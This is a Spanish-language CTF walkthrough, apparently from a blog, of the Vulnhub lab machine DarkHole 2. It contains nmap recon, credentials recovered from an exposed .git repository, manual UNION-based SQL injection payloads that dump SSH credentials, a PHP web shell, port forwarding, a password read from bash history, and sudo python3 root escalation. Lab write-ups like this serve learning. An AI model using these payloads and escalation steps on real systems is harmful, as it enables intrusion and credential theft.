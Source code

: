 ```yaml
---
title: "DarkHole 2 - Vulnhub"
layout: post
date: 2023-12-14 22:10
tags:
  - Vulnhub
  - DarkHole
  - RCE
  - BruteForce
  - php
  - Pivoting
  - Information Leakage
  - Github Enumeration
  - SQLI
  - Port Forwarding
  - Bash History
  - Abusing Sudoers
image: /assets/images/Darkhole2/Darkhole2.png
headerImage: true
projects: false
hidden: false
description: "DarkHole 2 - Vunlhub"
category: blog
author: CAHOn3R
externalLink: false
---
```

# Reconocimiento

Como de costumbre al tratarse de una maquina de *Vulnhub* y correrla en local empezaremos el reconocimiento escaneando nuestra propia red con **arp-scan** para encontrar la **IP** de la maquina victima.

```bash
❯ arp-scan -I eth0 --localnet --ignoredups
192.168.0.19	00:0c:29:b0:7d:26	VMware, Inc.

-I # para especificar la Interfaz que queremos escanear
--localnet # para decir que queremos que sea un escaneo local
--ignoredups # para que no reporte duplicados
```

La **IP** maquina victima es **192.168.0.19** así que procedemos a realizar el escaneo de puertos con **nmap**
```bash
❯ nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn -oG allPorts 192.168.0.19

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:B0:7D:26 (VMware)
```

Nos reporta 2 puertos abiertos, 22 **ssh** y 80 **http** ahora trataremos de ver lar versiones y servicios que corren en estos puertos.
```bash
❯ nmap -sCV -p 22,80 192.168.0.19 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 57:b1:f5:64:28:98:91:51:6d:70:76:6e:a5:52:43:5d (RSA)
|   256 cc:64:fd:7c:d8:5e:48:8a:28:98:91:b9:e4:1e:6d:a8 (ECDSA)
|_  256 9e:77:08:a4:52:9f:33:8d:96:19:ba:75:71:27:bd:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: DarkHole V2
| http-git: 
|   192.168.0.19:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: i changed login.php file for more secure 
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
``` 
Como podemos ver en el puerto 80 esta corriendo un **Apache 2.4.41** y en el puerto 22 **OpenSSH 8.2p1** si la version fuese menor a la 7.7 podría ser vulnerable a **user enumeration**, pero com no es el caso de momento nos sirve de bien  poco.
Lo que mas me llama la atención es el directorio **.git**, al verlo me viene a la mente la herramienta [git-dumper.py](https://github.com/arthaud/git-dumper)
```bash
❯ git log --oneline
0f1d821 (HEAD -> master) i changed login.php file for more secure
a4d900a I added login.php file with default credentials
aa2a5f3 First Initialize
❯ git diff a4d900a
diff --git a/login.php b/login.php
index 8a0ff67..0904b19 100644
--- a/login.php
+++ b/login.php
@@ -2,7 +2,10 @@
 session_start();
 require 'config/config.php';
 if($_SERVER['REQUEST_METHOD'] == 'POST'){
-    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
+    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
+    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
+    if($check->num_rows){
         $_SESSION['userid'] = 1;
         header("location:dashboard.php");
         die();
```
Con la herramienta me descargo el directorio **.git/** y con **git** hago un `git log` y voy enumerando los logs hasta dar con el que tenemos aquí arriba y ver que se quitaron estas lineas del archivo **login.php** que casualmente tiene credenciales **lush@admin.com:321**
Aun no hemos enumerado la web y ya tenemos credenciales, no hay que esforzarse mucho en esto, hay un login, tenemos creds, para dentro.
[<img src="/assets/images/Darkhole2/captura1.png">](/assets/images/Darkhole2/captura1.png)
# Explotación

Lo que vemos es esto, y en lo que me fijo es en la **url**, no se por que mi cerebro me llevaba a pensar en una vulnerabilidad **IDOR**, pero no es el caso... Lo siguiente que pruebo es lo típico, meterle una comilla a la **url** y...
[<img src="/assets/images/Darkhole2/captura2.png">](/assets/images/Darkhole2/captura2.png)
Capturo la petición con **burpSuite** para trabajar mas cómodo.

**Pruebas realizadas en burpSuite**
```burpSuite
GET /dashboard.php?id=1'--+- HTTP/1.1  200 OK
GET /dashboard.php?id=1'+or+sleep(5)--+- HTTP/1.1 # El servidor tarda 5 segundos en responder
```
_despues de esto ya sabemos que el servidor es vulnerable a SQLI_

Vamos a explotarlo de manera manual
```bash
# Primero tenemos que obtener el numero de columnas que hay en la base de datos que se está utilizando
GET /dashboard.php?id=1'+order+by+6--+- 200 OK'
# Vamos iterando el numero hasta llegar al correcto

GET /dashboard.php?id=1'+unilon+select+1,2,3,4,5,6--+- '
# aqui bucamos alguno de los numeros en la web, como no veo ninguno de los números cambio el ID a 2

GET /dashboard.php?id=2'+unilon+select+1,2,3,4,5,6--+- 200 OK'
# Aquí el servidor nos devuelve los numeros así que podemos injectar codigo sql para enumerar las bases de datos

GET /dashboard.php?id=2'+unilon+select+1,2,database(),4,5,6--+-
darkhole_2' # Listar database
GET /dashboard.php?id=2'+union+select+"test","test",group_concat(table_name),"test","test","test"+from+information_schema.tables+where+table_schema='darkhole_2'--+- 
ssh,users' # listar tablas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(column_name),"test","test","test"+from+information_schema.columns+where+table_schema="darkhole_2"+and+table_name="ssh"--+-
id,pass,user' # listar columnas

GET /dashboard.php?id=2'+union+select+"test","test",group_concat(user,0x3a,pass),"test","test","test"+from+ssh--+-
jehad:fool' # Credenciales SSH
```
En la ultima petición podemos poner directamente la tabla **SSH** por que estamos listando la base de datos que está en uso, si no fuese así había que especificar la base de datos junto a la tabla por ejemplo `darkhole_2.ssh`.

Podemos conectarnos por **SSH**, tras la enumeración típica manual encuentro una [tarea cron](https://ayuda.hostalia.com/hc/es/articles/360017724357--Qu%C3%A9-es-un-cron-o-tarea-programada-)
[<img src="/assets/images/Darkhole2/captura3.png">](/assets/images/Darkhole2/captura3.png)
# Pivoting

Esta tarea se ejecuta como el usuario **losy** cada minuto, lo que hace es cambiarse al directorio /opt/web y iniciar un servidor web con php en el localhost por el puerto 9999,
me desplazo al directorio
```bash
cd /op/web

ls
index.php

cat index.php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}
?>
```
Vemos una "web Shell" o "PHP shell" que se ejecuta como **losy**, dado que nos hemos conectado por **SSH** voy a ir a lo cómodo y me voy a traer el puerto 9999 a mi maquina
```bash
ssh jehad@192.168.0.19 -L 9999:127.0.0.1:9999
```

Ahora en nuestro navegador vamos a la 127.0.0.1:9999 y donde realmente estamos apuntando es al puerto 9999 de la maquina victima, ahí vemos las **web shell**, así que nos entablamos una **reverse shell** por el puerto **443**

[<img src="/assets/images/Darkhole2/captura4.png">](/assets/images/Darkhole2/captura4.png)
En verde tenemos la reverse shell con bash poniéndonos en escucha en **netcat** por el puerto 443 y en azul el tratamiento de la **tty**, faltaría exportar las variables de entorno.
```bash
losy@darkhole:/opt/web$ export TERM=xterm SHELL=bash
losy@darkhole:/opt/web$ stty rows x columns x # aqui tus valores
```

> Puedes hacer un stty -a para consultar tus valores en tu maquina atacante

Ya estamos como el usuario **losy**, ahora hay que escalar privilegios.
en el directorio personal de **losy** hago un `ls -la` es una buena costumbre, lo hago siempre.
```bash
jehad@darkhole:~$ ls -la
total 40
drwxr-xr-x 5 jehad jehad 4096 Dec 14 16:01 .
drwxr-xr-x 5 root  root  4096 Sep  2  2021 ..
-rw------- 1 jehad jehad 5677 Dec 15 10:16 .bash_history
-rw-r--r-- 1 jehad jehad  220 Sep  2  2021 .bash_logout
-rw-r--r-- 1 jehad jehad 3771 Sep  2  2021 .bashrc
drwx------ 2 jehad jehad 4096 Sep  2  2021 .cache
drwxrwxr-x 3 jehad jehad 4096 Sep  2  2021 .local
-rw-r--r-- 1 jehad jehad  807 Sep  2  2021 .profile
drwx------ 2 jehad jehad 4096 Sep  3  2021 .ssh
```

lo que mas me llama la atención de aquí es que el archivo **.bash_history** no tenga un link simbólico al **2>/dev/null** ya que en los **CTF** es lo mas común de ver, le hago un **cat** y veo la **pass** del usuario **losy**
```bash
cat .bash_history
P0assw0rd losy:gang
```

# Escalada de Privilegios

Pruebo  a hacer un **sudo -l**
```bash
losy@darkhole:~$ sudo -l
[sudo] password for losy: 
User losy may run the following commands on darkhole:
    (root) /usr/bin/python3
```
Podemos ejecutar **python3** como el usuario **root** de manera temporal... Vamos a [gtfobins](https://gtfobins.github.io/gtfobins/python/#sudo) aun que en este caso no era necesario.

```bash
losy@darkhole:~$ sudo /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
DarkHole{'Legend'}
```

